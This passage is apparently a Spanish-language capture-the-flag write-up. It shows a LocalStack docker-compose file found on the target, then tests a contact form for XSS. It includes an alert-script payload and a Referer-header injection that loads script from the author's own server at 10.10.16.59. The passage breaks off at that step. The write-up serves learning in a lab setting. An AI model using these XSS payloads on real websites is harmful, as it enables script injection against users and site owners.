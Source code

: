 ![0](https://user-images.githubusercontent.com/69093629/162542894-b9b79211-04e1-4522-a163-bacc6455934b.png)

Este es un archivo YAML donde se suelen definir volúmenes, redes y servicios, este era su contenido:

```yml
version: "3.3"

services:
  localstack:
    container_name: "${LOCALSTACK_DOCKER_NAME-localstack_main}"
    image: localstack/localstack-full:0.12.6
    network_mode: bridge
    ports:
      - "127.0.0.1:443:443"
      - "127.0.0.1:4566:4566"
      - "127.0.0.1:4571:4571"
      - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    environment:
      - SERVICES=serverless
      - DEBUG=1
      - DATA_DIR=/var/localstack/data
      - PORT_WEB_UI=${PORT_WEB_UI- }
      - LAMBDA_EXECUTOR=${LAMBDA_EXECUTOR- }
      - LOCALSTACK_API_KEY=${LOCALSTACK_API_KEY- }
      - KINESIS_ERROR_PROBABILITY=${KINESIS_ERROR_PROBABILITY- }
      - DOCKER_HOST=unix:///var/run/docker.sock
      - HOST_TMP_FOLDER="/tmp/localstack"
    volumes:
      - "/tmp/localstack:/tmp/localstack"
      - "/var/run/docker.sock:/var/run/docker.sock"
```

Al parecer estaba montado en local AWS, esto me llamo la atencion por lo que lo deje en segundo plano.

### XSS

En la sección Contact encontré un formulario.

![0](https://user-images.githubusercontent.com/69093629/162543455-4c6edddd-e327-4759-a6ce-92c0c9b12815.png)

Este podría ser vulnerable a XSS, intente inyectar `<script>alert("XSS")</script>`pero este lo detectaba.

![0](https://user-images.githubusercontent.com/69093629/162543579-8ff0f5cc-1ec7-4109-8f77-f7e2f524d799.png)

En este punto decidí interceptar la petición con Burp para hacer `debugging` en las cabeceras de la petición.

![0](https://user-images.githubusercontent.com/69093629/162543854-eafd3002-bf61-4fe9-902b-cffbf56da691.png)

Abrí un servidor con Python por el puerto 80 y probé a inyectar `<script src="http://10.10.16.59/"></script>` en la cabecera *Referer*.
